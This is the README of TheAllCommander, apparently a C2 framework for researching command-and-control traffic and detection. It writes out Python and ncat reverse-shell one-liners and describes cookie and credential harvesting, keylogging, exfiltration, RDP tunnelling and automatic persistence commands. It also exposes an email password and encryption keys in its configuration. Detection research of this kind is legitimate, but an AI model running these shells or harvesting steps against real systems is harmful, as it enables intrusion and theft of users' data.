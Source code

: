 # TheAllCommander
Framework for modeling and researching C2 communications for developing efficient filtering and detection logic.

# Why TheAllCommander?
TheAllCommander allows researchers to easily develop their own communication modules and connect them to this framework, then leverage the existing framework to test elements of the Red Team workflow through the communication protocol for further study. 
## What TheAllCommander is...
A flexible framework for studying, modeling, and testing new C2 communication protocols.
A portable framework for executing tests of an environments ability to detect non-nominal C2 traffic.  
## What TheAllCommander is not...
TheAllCommander does not natively sling exploits - this is not trying to be Metasploit.
TheAllCommander does not provide malware agents for use in an engagement - this is not trying to be Cobalt Strike. 

# Concept of Operations
The central server, TheAllCommander, receives incoming connections on a variety of communications protocols. Current, it supports HTTP, HTTPS, Email, text over TCP, and UDP (DNS traffic emulation). This allows for a single server to control local daemons over any of those protocols. TheAllCommander can be controlled from either a LocalConnection terminal based interface or TheAllCommanderFE, an Angular application developed to allow a GUI for inputing commands. All commands, listed below, are translated by TheAllCommander into a platform specific format if needed, and then transmitted to the local daemon. 

Daemons are uniquely identified by the combination of user account, hostname, and protocol. Therefore multiple daemons can exist on a target system via different protocols, or via different user permission levels.

# Interfaces
There are several key classes which are described in detail in the Javadoc for this project.

At a high level, this is the user-implementable part of the workflow: To communicate with a remote agent/exploit/etc, TheAllCommander defines an abstract class c2.C2Interface. It also implements Runnable, where the programmer will implement whatever operations are necessary to initialize communications. Communiation with the rest of TheAllCommander is facilitated with the IOManager class, which is a thread safe vehicle passed to the C2 interface on initialization. The C2Interface instance can request commands relevant to connect clients from this class, as well as pass along return communications. TheAllCommander handles routing those communications to the controlling agent.

There is also an AbstractCommandMacro class which can accept commands and translate them to more complex instructions. For example, TheAllCommander comes with two macro sets out of the box. The first of these is the CookieDeletionMacro, which allows the user to simply state the command "delete_cookies". The CookieDeletionMacro will then decompose this instruction into a series of instructions that delete Firefox, Chrome, and Edge cookies for the current user session on the target system. There is also the "harvest_cookies" macro, which instructs the remote daemon to send Firefox, Chrome, and Edge cookies to TheAllCommander.

# Daemons
Currently, TheAllCommander has been tested with the following payloads:
1) Python. Currently TheAllCommander includes a HTTPS, UDP/DNS, and EMail emulation daemon. These daemons are in no way produced for operations in a real Red Team engagement, and are developed to serve as a template for further comm development. Both demonstrate use of these communication protocols in a comparable way.
2) Msfvenom unstaged tcp payloads (windows/x64/shell_reverse_tcp and linux/x86/shell_reverse_tcp)
3) "Python oneliner" ->  TheAllCommander can receive connections from python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.1\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call ([\"/bin/sh\",\"-i\"]);'
		Note: This has been tested with /bin/sh and the $ will be removed to normalize IO with a Linux ncat shell
4) ncat <ip> <port> -e cmd | /bin/bash -> works on both Linux and Windows
5) The author has developed C++ and C# payloads which are available only for limited release. Until a framework for public release can be developed, they will be held for release on an individually assessed basis.

# Commands
ps - List all running process
pwd - Print Working Directory
getuid - prints username, user directory, and hostname
uplink (filename) - returns a file from the remote host in base64. TheAllCommanderFE will automatically allow download of the file.
<control> download (filename) (base64 file binary) - downloads file to remote host. TheAllCommanderFE allows users to select a file from the GUI and it will be automatically transferred to the daemon.
cd (directory) - changes present directory
harvest - (C# only) - Uses the data gathering from Ghostpack-Seatbelt to pull valuable data
die - Local daemon closes
screenshot (No Linux support) - Captures a screenshot, and uploads to the HARVEST directory based on hostname\username\time-tagged-file
clipboard (No Linux support) - captures the clipboard contents and uploads the contents to the HARVEST directory based on hostname-pid-username folder
cat 
	cat (filename) - reads files
	cat >(filename) - writes to file, overwriting. each line entered builds a string, then committed to the file. <done> to close, <cancel> to cancel operation
	cat >>(filename) - same as ">", except appends to file
	cat (file) > (file2) - copies file to file2, overwriting content
	cat (file) >> (file2) - appends file to file2 
proxy <Remote IP> <port> <local port>
	This command binds a TCP listener to <local port> on the TheAllCommander's command server. The remote daemon will
	open a socket to host <Remote IP> at <port>, and will function as a TCP proxy. This mode is currently supported for 
	HTTP and DNS client modes.

## Server based macro commands
The following commands are implemented serverside, where the server translates the instructions into
commands for the daemon.
delete_cookies -> deletes cookies for Firefox, Edge (Chromium version), and Chrome on Windows	
harvest_cookies -> takes copies of cookies for Firefox, Edge (Chromium) and Chrome on Windows. Takes a copy of Firefox credential files
activate_rdp <username> -> sets up Remote Desktop access on windows platforms, as well as a chisel reverse tunnel to the server
	Only supported by C++ daemons at present.

# Default Commands
Sometimes it is desireable for daemons to automatically execute commands without human interaction on connecting for the first time with the home server. The configuration file element "hub.cmd.defaults" can be used to specify a file that contains commands to be sent automatically. There are several tags, and an example is included the "test" directory.
:all -> Applies to all daemons connecting
:user-<username> -> Applies to all users matching this username. For example, all Administrator sessions might wish to execute higher level persistence establishment
:hostname-<hostname> -> Applies to all daemons on a host. Useful if there is some steps necessary to enable commanding on a particular

# Configuration
The execCentral.bar script provides a properties file. Most of the values in this properties file do not need to be changed, however they all the user an enormous level of freedom to modify many elements of TheAllCommander's function. Key configuration elements are listed below:
daemon.port=8000 				HTTPS port
daemon.dns.port=8001			DNS/UDP emulation port
daemon.http.port=8002			HTTP port
daemon.nativeshell.port=8003	Port for text over TCP port. A single receiver is used for all text over TCP, 
								TheAllCommander dynamically detects what response is needed
daemon.lz.logger=test			This is the location the keylogger information is sent to
daemon.lz.exfil=exfil			This directory is used for wide net data exfiltration
daemon.lz.harvest=test			Harvested information, such as clipboard shots, are saved here

The following configuration elements are used to connect to an email server to send commands and receive responses
daemon.email.port=587			
daemon.email.host=mail.matthandy.net
daemon.email.username=testC2@matthandy.net
daemon.email.password=haxor#12345

When TheAllCommander sends multiple commands automatically behind the scenes to accomplish a function, it will detect error conditions at each step of this process. This is the maximum time in milliseconds that it will wait for an affirmative response. Depending on the communication mechanism used, a greater than default value might be needed
daemon.maxresponsewait=15000

The following two parameters are used to configure how often TheAllCommander checks for new text over a socket and should not need to be changed. 
daemon.responserepollinterval=500
daemon.textovertcpstaticwait=500

The "commservices" parameter accepts a comma separated list of fully qualified class names for classes that extend the abstract class c2.C2Interface. This allows the software to dynamically load any arbitrary communication protocol the user wishes to implement and supply to the framework. 
commservices=c2.http.HTTPSManager,c2.udp.DNSEndpointEmulator,c2.smtp.EmailHandler,c2.tcp.GenericTCPInitiator
The "macros" parameter accepts a comma separated list of fully qualified class names for classes that extend the AbstractCommandMacro class, which allows users to define their own complex single line commands, which TheAllCommander can the translate into discrete commands. 
macros=c2.session.macro.CookieDeletionMacro,c2.session.macro.CookieHarvesterMacro

The following configuration elements are used to toggle the use of encrypting the payload for DNS/UDP emulated traffic
wire.encrypt.toggle=true
wire.encrypt.iv=AQIDBAUGBgUEAwIBBwcHBw==
wire.encrypt.key=AQIDBAUGBwgJCgsMDQ4PEA==

# Building
TBD